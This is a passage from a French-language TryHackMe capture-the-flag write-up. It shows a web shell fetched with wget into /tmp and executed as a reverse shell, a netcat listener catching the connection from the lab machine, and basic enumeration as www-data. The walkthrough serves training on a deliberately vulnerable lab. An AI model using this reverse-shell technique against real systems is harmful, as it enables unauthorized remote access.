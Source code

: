 ![page1](./Task1-10.png)    

On dit à wget de récuperer shell.php de l'écrire dans tmp.   
On récupère le reverse shell.   

![page1](./Task1-11.png)    

On exécute le reverse shell.  

```bash
^C
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.220.78.
Ncat: Connection from 10.10.220.78:52620.
Linux safezone 4.15.0-140-generic #144-Ubuntu SMP Fri Mar 19 14:12:35 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 23:48:56 up  1:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

On obtient un shell.   

```bash
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home/
files
yash
$ cat /home/yash/user.txt
cat: /home/yash/user.txt: Permission denied
```
